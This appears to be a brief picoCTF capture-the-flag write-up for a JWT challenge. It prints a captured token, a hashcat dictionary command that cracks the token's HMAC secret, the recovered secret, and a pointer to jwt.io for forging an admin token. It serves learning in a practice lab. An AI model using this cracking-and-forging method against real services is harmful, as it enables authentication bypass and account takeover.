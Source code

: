 ## Check the admin scratchpad! https://jupiter.challenges.picoctf.org/problem/58210/ or http://jupiter.challenges.picoctf.org:58210

We need to forge a jwt token but for that we need to find the signature password. If it's a week one we can try and crack it. 

First of all, we need the token. I will fill the form with 'alex' in my case, so I get:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWxleCJ9.zOG9UP5jHQnq9Tct1sHolVbFQABwfQxonNNNDRP5mKU

```

We can get the signature with hashcat:

```
hashcat jwt.txt -m 16500 -a 0 rockyou.txt 
```
Where jwt.txt is the token and rockyou.txt is the dictionary.

We get:

```
ilovepico
```
We can use an encoder online to make a token with the name admin [here](https://jwt.io/)
